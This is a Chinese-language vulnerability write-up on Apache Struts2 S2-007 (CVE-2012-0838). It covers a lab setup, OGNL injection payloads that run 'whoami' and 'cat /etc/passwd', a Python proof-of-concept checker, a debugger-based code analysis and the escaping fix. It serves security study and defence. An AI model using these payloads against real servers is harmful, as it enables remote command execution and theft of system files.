








# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第四篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-007漏洞,又名CVE-2012-0838漏洞.

> 在Struts2中,可以将HTTP请求数据注入到实际业务Action的属性中,这些属性可以是任意类型的数据,通过HTTP只能获取到String类型数据,Struts2中默认有一个类型转换器,可以完成大部分的自动转换操作,可以通过xml文件,来定义转换规则.比如Action类中有一个integer属性,不需要执行任何操作,Struts会自动将请求参数转换为integer属性.当配置了Validation时,若类型转换出错,后端默认会将用户提交的表单值通过字符串拼接,然后执行一次OGNL表达式解析并返回,从而可以构造特殊的恶意请求来执行命令.这种利用方式和S2-001的很相似,不同的是利用点不同.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-007)

#### 漏洞成因

> 在Struts2中,可以将HTTP请求数据注入到实际业务Action的属性中,这些属性可以是任意类型的数据,通过HTTP只能获取到String类型数据,Struts2中默认有一个类型转换器,可以完成大部分的自动转换操作,可以通过xml文件,来定义转换规则.比如Action类中有一个integer属性,不需要执行任何操作,Struts会自动将请求参数转换为integer属性.当配置了Validation时,若类型转换出错,后端默认会将用户提交的表单值通过字符串拼接,然后执行一次OGNL表达式解析并返回,从而可以构造特殊的恶意请求来执行命令.这种利用方式和S2-001的很相似,不同的是利用点不同.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.2.3

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
```

#### 读取文件

```java
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_007_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-007漏洞,又名CVE-2012-0838漏洞',
            'description': 'Struts2 S2-007漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.2.3',
            'date': '2011-09-03',
            'type': 'RCE'
        }
        self.url = url
        self.capta = self.get_capta()
        self.check_payload = {
            'name': "1",
            'email': "7777777@qq.com",
            'age': '''\' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(''' + '\'' +'echo ' + self.capta + '\'' + ''').getInputStream())) + \''''
        }
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
            if '.action' not in self.url:
                self.url = self.url + '/user.action'
            check_req = requests.post(self.url, data = self.check_payload)
            if self.capta in check_req.text and check_req.status_code == 200:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_007 = S2_007_BaseVerify('http://127.0.0.1:8080')
    S2_007.run()
```

## 漏洞分析

首先Struts2的运行流程是



&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.Struts2中默认有一个类型转换器,可以完成大部分的自动转换操作,可以通过xml文件,来定义转换规则.比如Action类中有一个integer属性,不需要执行任何操作,Struts会自动将请求参数转换为integer属性.首先来看下本环境中的相关xml配置文件,可见为age字段配置了转换规则,把age字段转换为int类型,范围为1-100.



&emsp;&emsp;&emsp;&emsp;2.运行项目后,name和email随便输入,age字段输入payload: ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '



&emsp;&emsp;&emsp;&emsp;3.问题出在com/opensymphony/xwork2/interceptor/ConversionErrorInterceptor的 intercept方法,在此处打个断点.然后在web界面点击提交,拦截到数据包



&emsp;&emsp;&emsp;&emsp;4.从代码中可以看到如果出现了类型转换错误,则把属性名和值赋值给了conversionErrors,然后生成迭代对象i$并对其进行遍历,遍历中把属性名赋值给propertyName,属性值赋值给value.方法最后执行fakie.put(propertyName, this.getOverrideExpr(invocation, value));,F7进入getOverrideExpr.



&emsp;&emsp;&emsp;&emsp;5.可见第24行对stack.findValue("top", String.class)前后加了一个单引号,这就是为什么payload前后要加一个单引号,是为了在这里啊形成闭合,以继续执行payload.继续执行,可看到闭合后的payload



&emsp;&emsp;&emsp;&emsp; 6.之后会调用 OgnlValueStack的setExprOverrides方法,将Map对象 fakie赋值给overrides属性,F7进入setExprOverrides



&emsp;&emsp;&emsp;&emsp;7.当拦截器执行完以后会对jsp标签进行解析,剩下的就和S2-001的流程相似了,S2-001需要利用 %{}进行递归解析,而S2-007利用的是OgnlValueStack在 findValue时会先在自己的overrides属性中寻找是否有对应key的键值对,如果有会直接覆盖掉我们想要在OgnlValueStack的CompoundRoot区域中寻找的属性值.当解析到 <s:textfield name="age" label="age" /> 时,会从OgnlValueStack的overrides属性中寻找key为age的键值对,值就是传入的ognl表达式,这个表达式会覆盖掉传入的age并进行执行并返回执行的结果



## 漏洞修复

> 对类型转换出错的value值进行escape转义处理,从而无法闭合单引号.也就无法构造OGNL表达式

```java
protected Object getOverrideExpr(ActionInvocation invocation, Object value) {
        return this.escape(value);
    }
```

## 总结

> struts2漏洞的精髓在ongl表达式......,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://mp.weixin.qq.com/s/EixluN3d1GcglXfcYeO7wg

> https://xz.aliyun.com/t/2684

> https://xz.aliyun.com/t/7971

